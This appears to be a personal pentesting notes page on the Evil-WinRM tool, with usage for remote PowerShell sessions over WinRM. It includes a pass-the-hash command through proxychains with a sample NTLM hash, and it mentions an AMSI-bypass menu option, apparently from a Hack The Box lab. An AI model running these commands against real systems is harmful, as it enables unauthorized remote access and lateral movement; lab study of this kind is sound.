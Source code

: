 ```yaml
---
title: evil-winrm 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - tools
  - active directory
  - windows remote management
---
```

# Evil-WinRm

Evil-WinRM connects to a target using the Windows Remote Management service combined with the PowerShell Remoting Protocol to establish a PowerShell session with the target.

By default, installed on kali. [See winrm](5985-5986-winrm-windows-remote-management.md).


## Basic usage

Example from [HTB machine: Responder](htb-responder.md).

```bash
evil-winrm -i $ip -u <username -p <password>

evil-winrm -i <ip> -u Administrator -H "<passwordhash>"
# -H: Hash

# Open a menu
menu

# There are some options there like
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit

# To use them, just run it on the terminal
```

Another example: combined with proxychains and pass the hash technique:

```
proxychains evil-winrm -i 172.16.5.5 -u INLANEFREIGHT.LOCAL\\Administrator -H 88ad09182de639ccc6579eb0849751cf
```



